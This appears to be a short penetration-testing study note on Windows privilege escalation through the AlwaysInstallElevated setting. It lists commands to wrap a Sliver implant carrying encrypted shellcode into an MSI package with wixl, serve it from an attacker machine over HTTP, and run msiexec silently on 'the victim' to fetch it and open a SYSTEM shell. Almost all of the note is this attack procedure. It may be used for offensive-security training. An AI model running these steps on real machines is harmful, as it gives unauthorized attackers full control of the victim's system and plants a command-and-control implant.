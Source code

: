# AlwaysInstallElevated

### 1) Install wixl

    sudo apt install wixl

### 2) Clone the MSI-AlwaysInstallElevated repo

    cd ~/tools
    git clone https://github.com/KINGSABRI/MSI-AlwaysInstallElevated
    cd ~/tools/MSI-AlwaysInstallElevated

### 3) C# OSEP binary with XOR encrypted shellcode into current directory

    sudo cp /home/kali/OSEP/hav0c/sliver.x64.exe .
    sudo chmod 777 sliver.x64.exe

### 4) Modify on line 15

From:

    <File Id="File0" Name="setup.exe" Source="setup.exe" /> <!-- Put the executable on the same directory-->

To:

    <File Id="File0" Name="setup.exe" Source="sliver.x64.exe" /> <!-- Put the executable on the same directory-->

### 5) Compile to .msi

    wixl -v WXS-Templates/alwaysInstallElevated-3.wxs -o alwaysInstallElevated.msi

### 6) Host the file on your machine for the victim machine to access it.

    sudp python3 -m http.server 80

### 7) Run on the victim, another shell should pop up as NT Auth\System

    execute -t 40 -o msiexec /qn /i http://10.10.10.11/alwaysInstallElevated.msi
